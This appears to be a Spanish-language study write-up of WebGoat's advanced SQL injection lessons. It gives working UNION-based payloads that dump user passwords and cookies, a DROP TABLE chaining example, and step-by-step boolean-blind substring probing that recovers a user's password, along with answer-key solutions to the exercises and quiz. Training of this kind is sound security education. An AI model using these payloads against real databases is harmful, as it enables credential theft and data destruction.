

# A1 Injection

La sección A1 de webgoat se refiere a las inyecciones SQL que son utilizadas para hacer que la aplicación se comporte de una manera no prevista por el desarrollador.

##### URL para ingresar a webgoat
+ http://localhost:8080/WebGoat/

# SQL Injection (Advanced)

## Preámbulo
Existen diversos carácteres especiales y sentencias que se pueden utilizar en SQL:

**Comentarios:**
```sql
/* */ 	 are inline comments
-- , # 	 are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```

**Encadenamiento de comandos:**
```sql
-- ;        allows query chaining

SELECT * FROM users; DROP TABLE users;
```

**Concatenación de cadenas**
```sql
-- ',+,||	 allows string concatenation
-- Char()	 strings without quotes

SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

**Operador UNION**
Este operador se utiliza para combinar resultados de dos combinaciones SELECT. Se debe considerar lo siguiente:
+ El número de columnas en cada declaración debe ser el mismo
+ Los tipos de datos deben coincidir 
+ La sentencia `UNION ALL` permite resultados duplicados

```sql
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

**Operador JOIN**
Combinar filas de dos o más tablas, en función de una columna relacionada.
```sql
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

## Ejercicio 1 (3)

#### Obten toda la información de las tablas

Solución
```sql
'SELECT * FROM user_system_data ;--
```

Otra solución:
```sql
' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--
```

Otra solución:
```sql
' SELECT first_name, last_name, cookie FROM user_data UNION ALL SELECT user_name, password, cookie FROM user_system_data;--
```

#### Cuando lo obtengas responde cuál es el password de Dave

* El password es: `passW0rD`

## Blind SQL injection (Inyección SQL a ciegas u oculto)
Este es un tipo de inyección que hace preguntas de `verdadero` o `falso` y define el resultado en función de las respuestas del servidor. Este tipo de ataque se utiliza cuando el desarrollador no muestra los mensajes tipicos de error, pero no suprime la vulnerabilidad.
+ SQL basado en contenido
+ SQL basado en tiempo

**Ejemplos:**

Suponiendo que tienes un sitio con la url `https://my-shop.com?article=4 ` puedes deducir que por detŕas corre una sentencia del siguiente estilo

```sql
SELECT * FROM articles WHERE article_id = 4
```

Podemos explotar esta vulnerabilidad ingresando `https://shop.example.com?article=4 AND 1=1` que eventualmmente se interpretará como:

```sql
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```
+ Si esto nos sigue devolviendo la misma página que cuando se usaba `https://my-shop.com?article=4 ` significa que el sitio es propenso a inyección SQL a ciegas
+ Si nos regresa un `page not found` es probable que no sea vulnerable

Podemos aprovechar la sentencia anterior mediante `https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2`. Una vez que sabemos que se puede explotar esto es solamente cuestión de creatividad y suerte de que la BD no esté correctamente configurada para localizar tablas de la BD sensibles. 

También podemos realizar una inyección basada en tiempo:
+ `article = 4; sleep(10) --`

## Ejercicio 2 (5)

#### Haz login como Tom

En este ejercicio se nos pide que hagamos login como el usuario Tom. Interactuando con el campo login podemos observar que:
+ Si tratamos de registrar a el usuario `tom` 
    + User tom already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '1`
    + User {0} already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '2`
    + User tom' AND '1' = '2 created, please proceed to the login page.

Por lo que podemos inferir que cada que nos diga que `User {0} already exists please try to register with a different username.` significará que hemos inferido algo correcto sobre la consulta. Ahora, hay que utilizar esto para buscar a el password.

Podemos pensar que existe un campo llamado `password` en que se almacenan las contraseñas.

Y entonces introducir mediante un `substring(password,1,1)` obtener la primera letra del password.

**Proceso de deducción** (Note que se cambiar los parametros de `substring`)

1. Probamos con **t** de **tom**
    + `tom' AND substring(password,1,1)='t`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
2. Probamos con **to** de **tom**
    + `tom' AND substring(password,1,2)='to`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
3. Probamos con **th** de **the** (Por *thepassword* o algo por el estilo)
    + `tom' AND substring(password,1,2)='th`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
3. Probamos con **the** de **he**
    + `tom' AND substring(password,1,3)='the`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
4. Probamos con **this** de **this** (thisisthepassword) o algo así
    + `tom' AND substring(password,1,4)='this`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)

Siguiendo con el mismo proceso, (palabra comun) llegamos hasta este punto
1. Inferir `this`
1. Inferir `thisis`
1. Inferir `thisisthe`
1. Inferir `thisisthepassword`
    + Probamos y no es el password :c
1. Inferir `thisisthepasswordfor`
1. Hasta llegar a `thisisasecretfortomonly`

Donde finalmente el password resulta ser:
+ `thisisasecretfortomonly`

Un ideal debería ser programar una herramienta que haga todo este proceso por nosotros.


## Ejercicio 3 (6)

#### Responder correctamente el test

**¿Cuál es la diferencia entre una declaración preparada y una declaración?**
+ A statement has got values instead of a prepared statement
+ Una declaración tiene valores en lugar de una declaración preparada

**¿Cuál de los siguientes caracteres es un marcador de posición para las variables?**
+ ?

**¿Cómo pueden las declaraciones preparadas ser más rápidas que las declaraciones?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.
+ Las declaraciones preparadas son compiladas una vez por el sistema de gestión de la base de datos en espera de entrada y se compilan previamente de esta manera.

**How can a prepared statement prevent SQL-Injection?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.
+ Los marcadores de posición pueden evitar que la entrada de los usuarios se adjunte a la consulta SQL, lo que resulta en una separación de código y datos.

**Prepared statements always read inputs literally and never mixes it with its SQL commands.**
+ The database registers 'Robert' ); DROP TABLE Students;--'.
+ La base de datos registra literalmente 'Robert' ); DROP TABLE Students;--'.